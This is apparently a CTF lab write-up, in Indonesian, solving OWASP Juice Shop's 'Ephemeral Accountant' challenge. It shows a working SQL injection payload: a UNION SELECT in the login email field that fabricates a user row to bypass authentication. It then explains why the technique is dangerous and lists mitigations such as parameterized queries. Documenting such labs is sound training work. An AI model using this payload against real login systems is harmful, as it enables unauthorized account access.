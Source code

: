 # Soal
- **Kategori**: Web – Injection  
- **Poin**    : ★★★★ (4 bintang)  
- **Judul**   : Ephemeral Accountant  
- **Tag**     : (tidak ada tag khusus)  

## Deskripsi 
Log in with the (non-existing) accountant `acc0unt4nt@juice-sh.op` without ever registering that user.

## Hint 
1. Try to create the needed user "out of thin air".  
2. The user literally needs to be ephemeral as in "lasting for only a short time".  
3. Registering normally with the user’s email address will then obviously not solve this challenge. The Juice Shop will not even let you register as `acc0unt4nt@juice-sh.op`, as this would make the challenge unsolvable for you.  
4. Getting the user into the database some other way will also fail to solve this challenge. In case you somehow managed  

# Resource
https://portswigger.net/web-security/sql-injection/cheat-sheet


# Step by step

1. **Intercept request login (capture HTTP POST)**  
   - Tangkap request biasa yang dikirim client ketika login:
   ```http
   POST /rest/user/login HTTP/1.1
   Host: localhost:3000
   Content-Type: application/json

   {
     "email": "user@example.com",
     "password": "password123"
   }
   ```
2. **Rancang payload UNION SELECT untuk membuat user ephemeral**

- Tujuan: sisipkan satu baris user sementara ke dalam hasil query login sehingga aplikasi menganggap user itu ada.
- Pastikan subquery meniru struktur tabel users (jumlah & urutan kolom harus cocok dengan query aplikasi).

```
{
  "email": "' UNION SELECT * FROM (SELECT 20 AS `id`,
                                   'acc0unt4nt@juice-sh.op' AS `username`,
                                   'acc0unt4nt@juice-sh.op' AS `email`,
                                   'test1234' AS `password`,
                                   'accounting' AS `role`,
                                   '123' AS `deluxeToken`,
                                   '1.2.3.4' AS `lastLoginIp`,
                                   '/assets/public/images/uploads/default.svg' AS `profileImage`,
                                   '' AS `totpSecret`,
                                   1 AS `isActive`,
                                   12983283 AS `createdAt`,
                                   133424 AS `updatedAt`,
                                   NULL AS `deletedAt`) AS tmp WHERE '1'='1';--",
  "password": "test1234"
}
```
Penjelasan singkat komponen:
- UNION SELECT * FROM (SELECT ... ) AS tmp → membuat row palsu dengan kolom terdefinisi.
- WHERE '1'='1' → memastikan kondisi selalu benar (opsional tapi membantu konteks).
-- → komentar untuk mengabaikan sisa query asli.

<img width="1480" height="678" alt="Screenshot 2025-09-07 142229" src="https://github.com/user-attachments/assets/ca51fd0c-dc59-4097-9481-34e035e06dcd" />


3. **Kirim request yang dimodifikasi**
- Kirim body yang diubah ke endpoint /rest/user/login.
- Tunggu response dari server.

4. **Observasi hasil (verifikasi)**
<img width="1919" height="357" alt="Screenshot 2025-09-07 142427" src="https://github.com/user-attachments/assets/e5e737d0-89eb-4bcd-a57f-1e762269cace" />

# Catatan / Pembelajaran
## Inti teknik

Teknik ini memanfaatkan UNION SELECT untuk menambahkan baris buatan (ephemeral) ke hasil query SQL sehingga aplikasi menganggap user itu benar-benar ada pada saat eksekusi query.

Baris buatan dibuat hanya untuk durasi eksekusi query — tidak ditulis permanen ke database (karena diciptakan di hasil UNION, bukan INSERT).

## Hal penting saat membangun payload

Jumlah kolom & tipe kolom harus sesuai dengan query asli. Jika tidak, UNION akan error.

Nama alias kolom di subquery harus dipikirkan agar aplikasi memetakan value ke field yang diharapkan (mis. kolom email dan password).

Selalu gunakan komentar (--) untuk mengabaikan sisa query asli yang bisa mengganggu injeksi.

Kadang perlu menambahkan WHERE '1'='1' atau kondisi lain agar subquery ter-trigger.

## Mengapa ini berbahaya

Teknik ini bukan sekadar bypass password — attacker dapat menciptakan data palsu yang aplikasi proses sebagai valid (ephemeral atau sementara).

Memberi akses admin/akun sensitif tanpa menulis ke DB permanen membuat deteksi berbasis perubahan DB menjadi lebih sulit.

## Mitigasi (praktik terbaik)

Prepared statements / parameterized queries — pisahkan struktur query dan data sehingga input tidak bisa mengubah SQL.

Validasi & sanitasi input — cek format email, batasi panjang, tolak karakter berbahaya.

Server-side verification — autentikasi harus memastikan user benar-benar ada dalam tabel user yang sah dan memverifikasi hash password, bukan hanya mencocokkan hasil query yang bisa dimanipulasi.

Least privilege — batasi hak akses DB untuk mencegah operasi yang tidak perlu.

Harden error handling & logging — jangan tampilkan error SQL ke user; log dan monitor pola injeksi.

Code review & pentest rutin — fokus pada endpoint autentikasi karena itu target utama attacker.
